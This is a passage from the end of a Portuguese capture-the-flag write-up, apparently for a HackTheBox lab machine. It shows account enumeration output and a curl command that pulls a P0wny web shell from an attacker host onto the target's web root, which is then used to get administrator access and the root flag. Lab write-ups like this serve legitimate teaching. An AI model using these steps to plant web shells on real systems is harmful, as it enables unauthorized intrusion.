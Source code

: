```
index: 0x2077 RID: 0x469 acb: 0x00020011 Account: SM_e5b6f3aed4da4ac98	Name: Microsoft Exchange Migration	Desc: (null)
```
Nessa ocasião, podemos enviar o shell como convidado e acessar como administrador.

No diretório ```C:\xampp\htdocs>```, envie o P0wny Shell.

```
curl http://10.10.14.159:8080/shell.phar -o shell.php
```

Após isso, acesse ```https://10.10.11.241/shell.php``` e você poderá acessar como administrador e encontrar a flag root.

![](https://i.imgur.com/vkVb7Il.png)

Com isso, chegamos ao final de mais uma máquina! Lembre-se, todo o processo é bastate árduo e tentei ao máximo realizar de maneira didática! Até a próxima!

![](https://i.imgur.com/ptEpqXs.png)

